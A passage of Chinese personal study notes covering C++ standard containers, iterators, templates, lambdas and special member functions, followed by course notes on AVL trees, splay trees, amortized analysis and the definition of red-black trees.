deque（读音为 deck）是双端队列（double-ended queue），除了额外的 push_front() 和 pop_front() 方法外，它具有与 std::vector 几乎完全相同的接口。
map¶
映射（map）中包含多个键值对，方法包括
std:::map<int, char> m;：创建空映射m.insert({k, v});或m[k] = v;：将键 k 和对应值 v 加入映射内m.erase(k);：将键 k 从映射中移除m.count(k)：检查键 k 是否在映射内，返回布尔值m.empty()：检查映射是否为空char c = m.at(k); m.at(k) = v;：检索并覆写键 k 对应的值（若键不存在则报错）char c = m[k]; m[k] = v;：检索并覆写键 k 对应的值（若键不存在则自动插入）
std::map<K, V> 实际上是一个存储着多个 std::pair<const K, V> 的集合。例如，我们可以像下面这样使用：
map 的实现
std::map 在具体的实现上是通过二叉树（技术上是红黑树）来做到的。
由于二叉树在搜索时需要对键值 K 进行比较，因此 K 需要具有比较运算符 operator<

set¶
std::set 存储着一系列不同的元素，它相当于一个特殊的、只存储 key 而不保存 value 的 std::map。
std::set 同样也是通过红黑树实现的，因此它保存的元素也必须能够进行比较，具有 operator<
std::set<int> s;：创建空集合s.insert(k)：将值 k 加入集合内s.erase(k)：从集合中移除值 k-
if (s.count(k))：检查值 k 是否在集合内- 从 C++20 开始也可使用
if (s.contains(k))
- 从 C++20 开始也可使用
-
if (s.empty())：检查集合是否为空
unordered_map 与 unordered_set¶
unordered_map 是 map 的一个优化版本，它具有和 map 相同的接口，但是它的实现方式是通过哈希表（hash table）来实现的，因此它的插入、查找、删除等操作的时间复杂度是 O(1)。

Tip
unordered_map 不再要求 key 必须具有 operator<，而是要求 key 必须具有 operator== 和 std::hash（可以通过 std::hash 来计算 key 的哈希值，hashable）。
- 荷载因子（load factor）：哈希表中元素的数量与桶的数量之比，当荷载因子超过某个阈值时，哈希表会自动扩容，以保证查询效率。
-
默认的 load factor 为 1，我们也可以通过
max_load_factor()来设置荷载因子的阈值。
而 std::unordered_set 就相当于一个不含有 values 的 std::unordered_map，它的元素也必须是 hashable 的。
unordered_map vs. map
- unordered_map 通常比 map 更快，但会占据更多的内存空间
- 如果需要保存的类型没有
operator<，则应该使用 unordered_map - 相对而言，unordered_map 更加安全
Abstract
| ith element | search | insertion | erase | |
|---|---|---|---|---|
| std::vector | 很快 | 慢 | 慢 | 慢 |
| std::deque | 快 | 慢 | 慢 | 慢 |
| std::set | 慢 | 快 | 快 | 快 |
| std::map | 慢 | 快 | 快 | 快 |
| std::unordered_set | N/A | 很快 | 很快 | 很快 |
| std::unordered_map | N/A | 很快 | 很快 | 很快 |
容器的分类¶
序列容器¶
序列容器是元素的线性序列，可以通过按顺序访问容器内的元素。
上面介绍过的容器中，std::vector 和 std::deque 就是序列容器。
vector 的内部实现
无论何时，std::vector 都会分配一块连续的内存空间来存储元素，并且在需要额外的空间时会被分配到一个更大的内存空间，然后将原来的元素复制到新的内存空间中（并释放旧的元素）。
需要注意的是，vector 所拥有的元素个数（size）和它所分配的内存空间（capacity）是两个不同的概念。
-
当目前的 capacity 不足以容纳新的元素时（e.g. 在
v.size()==v.capacity()插入一个新元素），vector 会重新分配一块更大的内存空间，并将原来的元素复制到新的内存空间中。- 新分配的内存空间的大小取决于编译器，但一般来说会是原来的两倍。
-
当 capacity 足够时，对 vector 的元素进行增删不会改变 capacity。
- e.g. 若当前的 capacity 为 8，而 size 为 5，这时删去一个元素，size 变为 4，但 capacity 仍为 8。这样做是为了避免频繁的内存分配和释放。
deque 的内部实现
std::deque 是双端队列（double-ended queue），底层通常由多个固定大小的内存块（chunks）组成，这些块在逻辑上是连续的，但在物理内存中不要求连续。每个块的大小由实现定义，例如 GCC 的 libstdc++ 中每个块的大小为 512 字节 / sizeof(element)。
在更上一层的逻辑上，deque 用一个动态数组（称为 map 或 control block）来保存指向各个内存块的指针。这个数组负责管理所有块的地址，类似“索引”的作用。
- 动态分块分配：当在头部或尾部插入元素时，如果当前块已满，deque 会分配得到一个新的内存块，并将其地址添加到 map 中。这一过程避免了整体元素的移动，使得两端插入/删除的时间复杂度为 \(O(1)\)。
- map 的扩容：如果 map 的空间不足以存储新块的指针，map 会重新分配得到一个更大的内存（类似 std::vector 的扩容策略），并将旧指针复制到新位置。此操作的时间复杂度较高（O(n)），但发生频率极低。
std::deque 的迭代器
std::deque 的迭代器需要记录以下信息：
- 当前元素所在的块指针
- 当前元素在块内的位置
- 必要时跳转到相邻块
关联容器¶
特点：
- 容器不必是有序的
- 具有更快的检索速度
map 与 set 的内部实现
- 映射（map）是由配对（pair）实现的，其中每一个元素都是：
std::pair<const key, value> - 集合（set）相当于只有键、没有值的映射，因此它的元素都是
const key
有序的 map 和 set 的内部是通过红黑树实现的，因此都要求元素的键值具有 operator<，以此来进行元素的比较与检索。
无序的 unordered_map 和 unordered_set 的内部是通过哈希表实现的，因此要求元素的具有运算符 std::hash 和 operator==，即可哈希化且可比较。
迭代器¶
迭代器基本概念¶
迭代器（iterator）是一种对象，它允许我们按照某种特定的顺序在容器中遍历元素，而不需要关心容器的具体实现。
c.begin()：返回指向容器 c 中第一个元素的迭代器c.end()：返回指向容器 c 中最后一个元素的下一个位置的迭代器（并不是指向最后一个元素）
所有的迭代器都有以下几个基本操作：
auto it = c.begin();拷贝初始化++it：迭代器自增*it：解引用迭代器，获取迭代器指向的元素it == c.end()：比较操作
但大部分迭代器还会提供一下几种操作：
--it：迭代器自减（反向移动）*it = elem;：修改迭代器指向的元素it += n;：迭代器移动 n 个位置it1 < it2：比较两个迭代器的位置（某个迭代器是否在另一个迭代器之前）
迭代器的类型¶
迭代器的类型决定了它们的功能和行为，C++ 中的迭代器类型大致可以这么划分：

- 输入迭代器（Input Iterators）：绝大部分迭代器的基本类型，允许我们通过迭代器读取元素
- 输出迭代器（Output Iterator）：允许我们通过迭代器写入（修改）元素
- 前向迭代器（Forward Iterator）：允许我们在容器中向前遍历元素的输入迭代器
- 双向迭代器（Bidirectional Iterator）：允许我们在容器中向前和向后遍历元素的输入迭代器
-
随机访问迭代器（Random Access Iterator）：允许我们在容器中随机访问元素的输入迭代器（可以指定偏移量，而不按顺序迭代）
std::vector和std::deque的迭代器就是随机访问迭代器

for-each loop 与迭代器
for-each loop 本质上在使用迭代器来遍历容器，因此它只能用于支持输入迭代器的容器。
下面这段代码使用 for-each loop 来遍历一个 vector：
它的实现方式类似于下面的代码：
类¶
我的 C++ 笔记中已经对关于类的内容有了很多介绍了，这里就只稍微记一些补充的内容。
基本概念¶
结构体和类的区别
classes containing a sequence of objects of various typs, a set of functions for manipulating these objects, and a set of restriction on the access of these objects and function;
structrues which are classes without access restriction;
在 CS106L 建议我们把类分别定义在 .h 和 .cpp 文件中，这样可以更好地区分类的声明和实现。
- 头文件（.h）：
- 定义类的接口
- 包括：类的声明、成员变量、成员函数的原型、类型定义（alias 和 enum 等）、常量等
- 源文件（.cpp）：
- 定义类的实现
- 包括：成员函数的具体实现、静态成员变量的初始化、可执行代码等
继承¶
继承具有以下特点：
- 动态多态性（dynamic polymorphism）：不同类型的对象
- 拓展性（extensibility）：继承允许我们通过创建具有特定属性的子类来扩展现有类
三种继承方式
| 继承类型 | public | protected | private |
|---|---|---|---|
| 派生类中 public 成员的属性 | public | protected | 不可访问 |
| 派生类中 protected 成员的属性 | protected | protected | 不可访问 |
| 派生类中 private 成员的属性 | private | private | 不可访问 |
菱形继承问题（diamond problem）
菱形继承问题是指在多重继承中，派生类继承了两个基类，而这两个基类又继承自同一个基类，从而导致派生类中包含了两份相同的基类。
我们需要使用虚继承（virtual inheritance）来解决这个问题。
在这个例子中，D 继承了 B 和 C，而 B 和 C 都继承了 A，因此 D 中包含了两份 A。
为了解决这个问题，我们可以使用虚继承：
这样 D 中就只包含了一份 A，并且 D 要负责调用 A 的构造函数（负责初始化基类 A）。
模板类¶
类模板与模板类
虽然类模板和模板类在名称上非常相似，但它们的含义是不同的：
- 类模板（class template）：是一个模板，用于生成类的定义，编译器会使用它来实例化各种具体的类，类似于函数模板用于生成函数定义
- 模板类（template class）：是类模板实例化后的具体类。当使用类模板定义对象时，需要指定实际的类型参数，从而生成模板类。
由于编译器需要知道模板类中所有成员的定义（包括成员函数的完整定义和实现），因此类模板的声明和实现都需要包含在头文件中，然后在需要使用这个类模板的地方 #include 这个头文件。
直接在头文件中定义类模板的两种方法
Info
CS106L 给出的观点是，仍然在 .h 文件中定义类模板，在 .cpp 文件中实现类模板的成员函数，但是要在 .h 文件的末尾#include 这个 .cpp 文件。然后在需要使用这个类模板的地方 #include 这个 .h 文件即可。
按照 CS106L 的观点，一个普通的类一般是这么编写的：
| myclass.h | |
|---|---|
而当我们使用类模板时，我们就要：
| mytemplate.h | |
|---|---|
至于到底是使用哪种方式定义类模板，就见仁见智了。
typename 与 class
在模板中，typename 和 class 是等价的，例如下面四种写法都是等价的；
模板函数¶
模板函数是一种将数据类型进行参数化的函数，它允许我们在编写函数时不指定具体的数据类型，而是在调用函数时显式或隐式地指定数据类型。
一个简单的例子¶
例如下面这个简单的模板函数：
我们可以在第一行设置一个默认的类型参数：
可以显式地指定模板函数的类型参数：
也可以隐式地指定模板函数的类型参数（让编译器自行推导参数类型）：
Warning
当我们使用字符串作为模板函数的类型参数时，编译器自行推断得到的类型将是 const char*，而不是 std::string。
在这个函数中，被比较的两个参数将是两个指针的值，即这两个字符串的地址，而不是字符串本身的值。如果我们希望比较字符串的值，我们需要显式使用 std::string 类型。
concept¶
在使用模板函数时，我们通常要求模板函数的类型参数具有某些特定的属性，例如上面的 min 函数要求参数类型具有 < 运算符，这些限制被称为约束（constraints）。这些约束的被命名的集合被称为概念（concept）。
我们可以使用 concept 来限制模板函数的类型参数，从而避免一些不合法的类型参数。对于上面的例子，我们要求传入的参数是“可比较的”（comparable）：
- 这个
concept的名字是Comparable requires子句后面是对于这个约束的要求，这里表示接受两个const T类型的参数a和b{ a < b }表示我们需要检查a < b这个表达式是否有效，即我们希望类型T具有<运算符-> std::convertible_to<bool>表示我们希望a < b的结果可以转换为bool类型
把这个 concept 用在我们的 min 函数中：
让我们的 min 函数能接受任意多个参数
Comparable... Ts 表示我们可以接受任意多个参数，而这些参数都必须满足 Comparable 的要求。例如我们调用 min<int, int, int>(1, 2, 3)，这里的 int 满足 Comparable 的要求。
这个函数的实现方式是递归的，它先对除了第一个参数外的其他参数调用 min 函数，用第一个参数和返回值进行比较，然后返回较小的那个。我们需要定义一个 base case，即当只有一个参数时，直接返回这个参数。
模板元编程
我们可以利用函数模板的特性来进行一些编译期的计算，这被称为模板元编程（template metaprogramming）。
例如，我们可以使用模板元编程来计算阶乘：
Tip
- 模板元编程是图灵完备的，因此我们可以使用这项技术来在编译期间执行任意代码（但是这样做的语法很复杂，而且容易出错）。
- 要使代码在编译期间执行，我们也可以使用 constexpr/consteval 函数。
函数与 Lambdas¶
谓词函数
我们称返回值是布尔类型的函数为谓词函数，它用于判断某个条件是否成立，可以接受一个或多个参数。
谓词函数可以是一个普通的函数，也可以是一个 lambda 函数。
考虑一个简单的函数 find_if，它接受两个迭代器和一个谓词（predicate）函数，返回容器中第一个满足谓词的元素：
我们可以像下面这样使用这个函数：
我们传入的 isEven 是实际上是一个函数指针，它指向了 isEven 函数的地址。我们也可以使用 lambda 函数来代替这个函数指针：
lambda 表达式
lambda 表达式的基本格式为
capture-clause：捕获列表，用于捕获外部变量param：参数列表-> bool：返回值类型{}：函数体
关于捕获子句：
- []：不捕获任何外部变量
- [=]：捕获所有函数体中使用到的外部变量（值捕获）
- [&]：捕获所有函数体中使用到的外部变量（引用捕获）
- [var]：捕获 var 变量（值捕获）
- [&var]：捕获 var 变量（引用捕获）
- [&, var]：引用捕获函数体中使用到的所有外部变量，但 var 为值捕获
- [=, &var]：值捕获函数体中使用到的所有外部变量，但 var 为引用捕获
当我们使用一个 lambda 表达式时，编译器会生成一个匿名的函数对象（或称函子，functor），这个函数对象的类型是由编译器自动推导的。
例如这段简单的代码
实际上相当于
运算符重载¶
不可重载的运算符
::：作用域解析运算符.*.：成员指针运算符?:：三目条件运算符sizeof()：长度运算符typeid()：类型信息运算符cast()：类型转换运算符
可重载的运算符

通常有两种重载运算符的方法：
-
成员函数：重载运算符作为类的成员函数
- 要求这个运算符的左操作数是这个类的对象
- 需要在类的作用域内声明，可以在类的内部或外部定义
-
非成员函数：重载运算符作为类的友元函数
- 不要求这个运算符的左操作数是这个类的对象，允许左操作数是其他类型，如基本类型
int、double等 - 可以在类的外部定义，但是需要在类的作用域内使用
friend关键字声明
- 不要求这个运算符的左操作数是这个类的对象，允许左操作数是其他类型，如基本类型
运算符重载的使用哲学
- 重载后的运算符会保持原有的优先级和结合性
- 重载后的运算符应意义明确
- 重载后的运算符应该遵循常规的语义，例如不要把
+重载成减法
特殊成员函数¶
每个类都拥有六个特殊的成员函数（special member functions，SMF），它们是：
- 默认构造函数（default constructor）：不接受任何参数的构造函数
- 析构函数（destructor）：当对象离开作用域时被调用
- 拷贝构造函数（copy constructor）：通过按成员拷贝一个现有对象，创建一个新对象
- 拷贝赋值运算符（copy assignment operator）：将一个对象的值赋给另一个对象
- 移动构造函数（move constructor）：通过移动现有对象的资源，创建一个新对象
- 移动赋值运算符（move assignment operator）：将一个对象的资源移动给另一个对象
Example
拷贝构造与拷贝赋值¶
当我们使用一个对象初始化另一个对象时，拷贝构造函数会被调用；当我们使用一个对象赋值给另一个对象时，拷贝赋值运算符会被调用。
当这两个函数/运算符没有被显式定义时，编译器会自动生成默认的版本，它们会一一对应地拷贝对象的每一个成员变量的值。但当我们的类中包含了指针或其他资源时，直接使用默认的拷贝构造函数和拷贝赋值运算符会导致新的对象和原对象共享资源（例如两个对象中的指针都指向同一块内存）。
当其中一个对象对这块资源进行操作（例如通过指针修改这块内存存储的值）是，另一个对象并不知情，当另一个对象再次访问这块资源时，可能会因为这块资源的值已经被修改而出现错误。
上述的拷贝被称为浅拷贝。如果我们希望做到深拷贝，即新创建的对象拥有一份独立的资源，我们就需要显式地自行定义拷贝构造函数和拷贝赋值运算符。
Example
Note
Rule of Zero：
- 如果编译器默认生成的特殊成员函数能够满足需求，那么就不要显式地定义这些函数
Rule of Three：
- 如果我们需要显式定义析构函数，那么通常也需要显式定义拷贝构造函数和拷贝赋值运算符
下面这些表达式调用的函数是什么？
移动语义¶
Optional 与类型安全¶
RAII 与智能指针¶
Ended: C++
Ended: 编程语言
高级数据结构与算法分析 ↵
高级数据结构与算法分析¶
约 135 个字 预计阅读时间 1 分钟
任课教师：张国川
成绩组成
- 期末以外部分累计不超过 60%
- Homework 10%
- Discussions 10%++
- project 30%
- 期中 10%
- 期末 40%
Data Structures
- Balanced Search Trees:
- AVL Tree, Splay Tree
- B+ Tree
- Red-Black Tree
- Leftist Heaps, Skew Heaps
- Binomial Queue
- Inverted File Index
Algorithms
- Divide and Conquer
- Backtracking, Dynamic Programming
- Greedy Algorithms, Local Search
- NP-Completeness, Approximation Algorithms
- Randomized Algorithms, Parallel Algorithms
- External Sorting
Table of Contents¶
- AVL Trees, Splay Trees,and Amortized Analysis
- Red-Black Trees and B+ Trees
- Inverted File Index
- Leftist Heaps and Skew Heaps
- Binomial Queue
- Backtracking
- Divide and Conquer
- Dynamic Programming
- Greedy Algorithms
- NP-Completeness
- Approximation Algorithms
- local Search
- Randomized Algorithms
- Parallel Algorithms
- External Sorting
AVL Trees, Splay Trees,and Amortized Analysis¶
约 4244 个字 66 行代码 10 张图片 预计阅读时间 18 分钟
AVL Tree¶
AVL Tree的定义¶
AVL Tree的主要思路是每次进行插入和删除之后，都要检查树的平衡性，如果不平衡，则通过“旋转”操作来使树恢复平衡。
AVL Tree的递归定义
- 空树是 AVL 树
- 如果 T 不是空的，那么 T 是 AVL 树当且仅当
- 它的左子树和右子树的高度差不超过 1
- T 的左子树和右子树也是 AVL 树
平衡因子 \(bf\) 的定义
- 对于一个结点 \(x\)，它的平衡因子定义为 \(bf(x) = h(x.left) - h(x.right)\)，即左子树高度减去右子树高度
- 对于一个AVL树，它的所有结点的平衡因子都是 \(-1, 0, 1\)
AVL树是一种平衡二叉搜索树（balanced binary search tree），它在进行搜索、插入和删除时的时间复杂度能够保持在 \(O(\log n)\)。
AVL Tree 的 C++ 实现
由于AVL Tree关于平衡性的要求，因此在实现时需要维护每个结点的height.
- 高度通常有不同的定义，要根据题目来具体判断，这里我们认为空结点的高度是-1，叶结点的高度是0。
AVL Tree的旋转¶
AVL树的特点在于“旋转”操作，它能够在不影响二叉树的中序遍历序列的前提下，使失衡结点重新恢复平衡。换句话说，旋转操作既能保持“二叉搜索树”的性质，也能使树重新变为“平衡二叉树”。
RR型旋转-左旋¶
在某个结点的右子树(R)的右子树(R)上插入结点，导致该结点失衡，其平衡因子变为-2，需要进行左旋操作。
- A向左旋转成为B的左子树
- B原先的的左子树成为A的右子树

RR型旋转

LL型旋转-右旋¶
在某个结点的左子树(L)的左子树(L)上插入结点，导致该结点失衡，其平衡因子变为2，需要进行右旋操作。
- A向右旋转成为B的右子树
- B原先的的右子树成为A的左子树

LL型旋转

LR型旋转-先左旋后右旋¶
在某个结点的左子树(L)的右子树(R)上插入结点，导致该结点失衡，其平衡因子变为2，需要进行先左旋后右旋操作。
Tip
对于此类失衡结点，仅进行左旋或右旋均无法使其恢复平衡
需要进行两次旋转操作：
- 先对失衡结点的左子树进行左旋操作
- 再对失衡结点进行右旋操作
LR型旋转

RL型旋转-先右旋后左旋¶
在某个结点的右子树(R)的左子树(L)上插入结点，导致该结点失衡，其平衡因子变为-2，需要进行先右旋后左旋操作。
- 先对失衡结点的右子树进行右旋操作
- 再对失衡结点进行左旋操作
RL型旋转

具体分析后可以发现，AVL树的失衡情况仅有以上四种。当对AVL树进行插入或删除操作时，如果导致某个结点失衡，则需要根据其失衡情况进行相应的旋转操作，可以通过判断失衡结点的平衡因子来确定失衡类型，并采取相应的旋转操作。

| 失衡结点的平衡因子 | 子结点的平衡因子 | 应采用的旋转方法 |
|---|---|---|
| \(>1\)（左偏树） | \(\geqslant 0\) | LL旋转（右旋） |
| \(>1\)（左偏树） | \(<0\) | LR旋转（先左旋后右旋） |
| \(<-1\)（右偏树） | \(\leqslant 0\) | RR旋转（左旋） |
| \(<-1\)（右偏树） | \(>0\) | RL旋转（先右旋后左旋） |
Tip
虽然LR旋转和RL旋转实际上要进行两次旋转，但我们一般还是认为它们都是一次旋转（single rotation）。
AVL Tree的常用操作¶
插入¶
Tip
AVL树在进行插入操作后，从该结点到根结点的路径上可能会出现一连串的失衡结点，但实际上只需要对最近的一个失衡结点进行旋转操作即可。
因为仔细观察可以发现，旋转操作会使以这个失衡结点的为根的这颗子树的高度恢复到失衡之前的状况（高度变为旋转之前减去 1），从而它的父结点和更远的祖先结点的平衡因子恢复到原先的状态，因此后续就不需要旋转了。
- 找到要插入的位置所需时间复杂度为 \(O(\log n)\)，且只需进行一次 \(O(1)\) 的旋转操作，因此插入操作的时间复杂度为 \(O(\log n)\)。
删除¶
- 课件中并未要求实现AVL树的删除操作，但值得注意的是，AVL树的删除后旋转最多进行 \(O(\log n)\) 次，而找到要删除的结点所需时间复杂度也是 \(O(\log n)\)，因此删除操作的时间复杂度仍然是 \(O(\log n)\)。
- 由于删除操作可能涉及到不止一次的旋转操作，因此需要从被删除的结点开始，自底向上执行旋转操作，使所有失衡结点恢复平衡
因为我懒得写，而且似乎考试也没有要求，所以这里就不写了。🤪
查找¶
- AVL树的查找操作与普通二叉搜索树相同，其时间复杂度为\(O(\log n)\)，在此不再赘述。
综上所述，AVL树的插入、删除和查找操作的时间复杂度均为\(O(\log n)\)。
Splay Tree¶
Splay树的目的是希望在不像AVL Tree那样保持严格的平衡约束的同时，满足一定程度上对树的操作的对数时间复杂度（即对于一个空的树的连续\(M\)个树操作，总共的所需的时间不超过 \(O(M \log n)\)）。
- Splay树在进行访问时（包括插入、删除、搜索等操作），会将被访问的结点调整到树的根结点，这样可以使刚刚被访问的结点在接下来的操作中更容易被访问到，从而提高访问效率。
来自吴一航学长的ADS讲义
另一方面Splay树在访问（特别注意访问包括搜索、插入和删除）时都需要将元素移动到根结点，这非常符合程序局部性的要求，即刚刚访问的数据很有可能再次被访问，因此在实现缓存和垃圾收集算法中有一定的应用。
Splay树就是在原先的二叉搜索树的基础上，通过一系列的旋转操作，将访问的结点调整到根结点：
- 搜索：先通过普通二叉搜索树的方法找到结点，再通过一系列的旋转操作将结点调整到根结点
- 插入：先通过普通二叉搜索树的方法找到插入位置并插入，再通过一系列的旋转操作将刚刚插入的结点调整到根结点
- 删除：先通过普通二叉搜索树的方法找到需要删除的位置，再通过一系列的旋转操作将要被删除的结点调整到根结点，然后删除根结点（即删除刚刚被选定的结点），再使用普通二叉搜索树的合并操作将左右子树合并
那么很显然地，我们需要关注的是如何实现splay操作，即如何通过一系列的旋转操作将结点调整到根结点。
有一种相当自然的想法是：不断地把要访问的结点和他的父结点交换父子次序（即不断地进行单旋操作），直到该结点成为根结点。
这样的操作虽然把要访问的结点放到了根结点，但也把其上移路径上的结点移到了很深的位置，使得树的结构依然很不平衡，显然不满足我们对总时间复杂度的要求。

比如在上面的这个例子中，\(N\) 次查找需要 \(O(N^2)\) 的时间，这显然不太令人满意。那么我们就要寻找一种合理的旋转方法，使得我们的时间复杂度要求得到满足。
Splay Tree的旋转操作
对于任何不是根结点的结点 \(X\)（因为根结点不需要旋转），我们关心它的 parent 结点 \(P\) 和 grandparent 结点 \(G\)
- case 1: 若 \(P\) 是根结点，直接旋转交换 \(X\) 和 \(P\)
- case 2: 若 \(P\) 不是根结点，可再分为两种情况
- Zig-zag: 双旋(double rotation)，操作方法与 AVL 树的 R L或 LR 旋转一致
- Zig-zig: 单旋(single rotation)，实际上也是旋转了两次。Zig-zig 操作与 AVL 树的 LL 或 RR 旋转不同，是先将 \(P\) 和 \(G\) 旋转交换，再把 \(X\) 和 \(P\) 旋转交换

现在我们已经得到了 Splay Tree 的核心操作 splay，那么搜索和插入的操作就十分自然了，值得我们再次强调的是删除操作：
- Find X（此操作后X为根结点）
- Remove X
- FindMax(\(T_L\))（寻找左子树的最大结点，它一定没有右子树，使其成为新的根结点）
- Make \(T_R\) the right child of the root of \(T_L\) (因为现在 \(T_L\) 的根一定没有右子树，直接 merge 上去即可)
Amortized Analysis(摊还分析)¶
摊还分析的主要想法来自于我们希望能够通过适当的方法估计一系列操作的平均时间复杂度，但平均时间复杂度往往不太好估计，因此我们希望能够找到一种更好的方法。
假如直接把直接用所有情况中最差的时间复杂度作为平均情况的上界，这也是不恰当的，因为不可能每一步操作都是最坏的情况，因此我们要通过摊还分析对平均时间复杂度的上界进行估计和约束，即找到某种方式把时间复杂度“平摊”到每一步操作上，同时“平摊”后的结果也不小于直接平均得到的结果，那么我们就成功地约束和估计了平均时间的上界。
worst-case bound \(\geqslant\) amortized bound \(\geqslant\) average-case bound
我们可以采取以下三种方法：聚合分析、核算法以及势能法。通过栈来举例分析，Push 和 Pop 的复杂度是 \(O(1)\)，Multipop（将所有元素弹出）的复杂度是 \(O(n)\)，其中 \(n\) 是当前栈中元素的个数。
聚合分析(Aggregate analysis)¶
显然，平均时间复杂度的最差情况是所有操作都是 Multipop，但是由于我们最开始拥有的一定是空栈，因此显然不可能每一次操作都是这样的情况——都是 \(O(n^2)\) 的时间复杂度。
我们要只考虑可能出现的情况中最差的时间复杂度，即从一个空栈开始的连续 \(n\) 次操作中，前 \(n-1\) 次都是Push，最后一次是 Multipop。
因此，从空栈开始的连续 \(n\) 次操作中，最差的操作代价是 \(2n−2\)，把它平均分为 \(n\) 份就是摊还复杂度，因此摊还分析复杂度为 \(O(1)\)
核算法(Accounting method)¶
核算法的目标是求出平均时间成本，但将所有时间完美的平均十分困难，那我们只需要尽可能地截长补短，把成本大的截取出来分给成本小的，并且保证所有操作的总成本不会减小，这样才能保证摊还时间复杂度是平均时间的上界。
我们设第 \(i\) 种操作的真实成本是 \(c_i\)，截长补短后的摊还成本是 $$ \hat{c_i} = c_i + \Delta_i $$
其中\(\Delta_i\)就是从长的截取出来部分（负值），或者给短的补充上去的部分（正值），并且我们要保证摊还成本不小于平均成本，那么就要有 $$ \sum_{i=1}^n \hat{c_i} \geqslant \sum_{i=1}^n c_i $$
也即 \(\sum_{i=1}^n \Delta_i \geqslant 0\)。
因为我们希望每一次操作的摊还成本是 \(O(1)\)，所以我们希望这三种操作的成本都是常数级的，而 Multipop 的成本比较大，我们就要使它对应的 \(\Delta_i < 0\)，那么就要让成本小的操作 \(\Delta_i > 0\)
就像 PPT 中的例子那样，把 Push 的操作代价调整为 2，Pop 和 Multipop 的操作代价调整为 0，那么连续 \(n\) 次操作的时间复杂度至多为 \(O(2n) = O(n)\)，分摊给 \(n\) 次操作后就是 \(O(1)\)。
上述处理的合理性的证明是显然的，因为 \(size(S) \geqslant 0\)，即进行 Pop 和 Multipop 之前必须 Push，每一次 Push 的代价加 1 就足以抵消掉 Pop 和 Multipop 的所有代价，那么这就证明了 \(\sum_{i=1}^n \Delta_i \geqslant 0\)
Tip
核算法(Accounting method)的名称可以理解为在银行中存取款，显然在取款之前必须存款，足够的存款才能抵消掉你的开销。
势能法(Potential method)¶
我们可以为整个结构设计一个势函数 \(\Phi\)，使得第 \(i\) 次操作的摊还代价为 $$ \hat{c_i} = c_i + \left( \Phi(D_i) - \Phi(D_{i-1}) \right) $$
这里的 \(i\) 表示连续 \(n\) 个操作中的第 \(i\) 个，而非上面核算法的第 \(i\) 种。
所以每一步操作的摊还代价等于操作的真实代价加上势函数的变化，求和得到
我们希望这个摊还代价不小于真实代价，即 \(\sum_{i=1}^n \hat{c_i} \geqslant \sum_{i=1}^n c_i\)，那么就要有 \(\Phi(D_n) \geqslant \Phi(D_0)\)，即最终时刻势函数的变化不小于 0。
我们在设计势函数时通常会让 \(\Phi(D_0) = 0\)，即初始状态的势能为 0，并且其他任何时候的势能不小于 0，那么就可以保证摊还代价不小于真实代价。
Splay Tree的摊还分析¶
我们知道最后得到的摊还分析结果是 \(O(\log n)\)，那么 \(\Phi(D_n)\) 就应当是 \(O(n\log n)\) 量级的，所以势函数中就要带有一个对数函数。最终得到了如下的定义： $$ \Phi(D_i) = \sum_{i \in T} \log S(i) $$ 其中 \(S(i)\) 表示子树 \(i\) 的大小（包括 \(i\) 自己在内的所有结点的个数）
 那么对于结点 \(X\) 在进行第 \(i\) 次操作时，我们可以得到如下的分析：
那么对于结点 \(X\) 在进行第 \(i\) 次操作时，我们可以得到如下的分析：
- zig 操作的摊还代价
这里 \(R_i(P) - R_{i-1}(P)\) 显然为负值，因此去掉这两项之后可以得到第一个不等号。
- zig-zag 操作的摊还代价
这里我们注意到 \(R_i(X) = R_{i-1}(G)\), 因此这两项可以抵消掉，同时 \(R_i(P) + 1 \leqslant R_i(X)\)，\(R_i(G) + 1 \leqslant R_i(X)\)，并且还有 \(R_{i-1}(P) \geqslant R_{i-1}(X)\)，于是我们就可以得到第一个不等号。
- zig-zig 操作的摊还代价
这里我们就直接进行简单粗暴的放缩，注意到 \(R_i(P) + 1 \leqslant R_i(X)\)，\(R_i(G) + 1 \leqslant R_i(X)\) 和 \(R_{i-1}(P) \geqslant R_{i-1}(X)\)，\(R_{i-1}(G) \geqslant R_{i-1}(X)\) 就可以直接得到这个不等式。
上面我们得到了每一次操作的摊还代价，那么就需要计算结点 \(X\) 从它所在的位置连续移动到根结点总共需要的摊还代价。设 \(X\) 的高度为 \(H(X)\)，则可能的旋转次数为
其中偶数的情况里所有的旋转都是 zig-zig 或 zia-zag，奇数则是除了最后一次操作是 zig 之外，其他都是 zig-zig 或 zig-zag。
考虑最坏的情况，即一定要旋转 \(k\) 次，那么总的摊还代价为
这里最后的等于 \(O(\log n)\) 来自于势函数的定义（对数的累和）
综上所述，Splay树的搜索、插入和删除的摊还复杂度均为\(O(\log n)\)·
红黑树与B+树¶
约 4813 个字 10 张图片 预计阅读时间 19 分钟
红黑树¶
AVL树为了实现平衡搜索树的目标，采用了暴力的保持严格平衡的方法（左右子树高度之差不可大于1），并且不断通过旋转保持平衡。而红黑树则是希望通过另一种并不那么严格的定义方式同样满足“平衡”的需求，即给每一个结点染色。
红黑树的定义¶
红黑树的定义
红黑树是满足以下性质的二叉搜索树
- 每个结点要么是红色的，要么是黑色的
- 根结点一定是黑色的
- 每一个叶结点（\(NIL\)）都是黑色的
- 如果一个结点是红色的，那么它的两个子结点都是黑色的
- 对于每个结点，从该结点到其所有后代叶结点（\(NIL\)）的简单路径上，都包含相同数目的黑色结点
- 对于上面的第二条性质，在对红黑树进行插入、删除时常会有将根节点变为红色的情况，但这时候可以直接将根结点染回黑色，这对于其他的性质也完全不会有任何影响
我们还可以对红黑树进行以下的补充定义
红黑树额外定义
- 我们将 \(NIL\) 称为外部结点，其余有键值的结点为内部结点
- 从某个结点 \(X\) 出发到达一个叶子结点（\(NIL\)）的任意一条简单路径上的黑色结点个数（不含 \(X\) 本身）称为 \(X\) 的黑高，记为 \(bh(X)\)。除此之外，我们定义整棵红黑树的黑高为其根结点的黑高，\(bh(Tree) = bh(root)\)。
然后可以证明如下定理
红黑树的高度
一棵有 \(n\) 个内部结点的红黑树的高度至多为 \(2\log(n+1)\)
- 只需要先用数学归纳法证明 $n \geqslant 2^{bh} - 1 $
- 然后再根据性质 4 知道 \(bh \geqslant \dfrac{h}{2}\)，这里的 \(h\) 是树的高度
而红黑树也同样是二叉树，那么可以知道有 \(n\) 个内部结点的红黑树的高度至少为 \(\log(n+1)\)
简单来说，控制红黑树平衡的关键在于控制红色结点，控制了红色结点，就可以让红黑树保持一定程度上的平衡。
吴一航学长的ADS讲义
对于红黑树，黑高是绝对严格的平衡要求，而红色结点则是少量不平衡的因素，并且定义控制了红色结点的个数，也就控制了不平衡因素的影响，因此红黑树还是可以保持一定程度的平衡的。
红黑树的插入¶
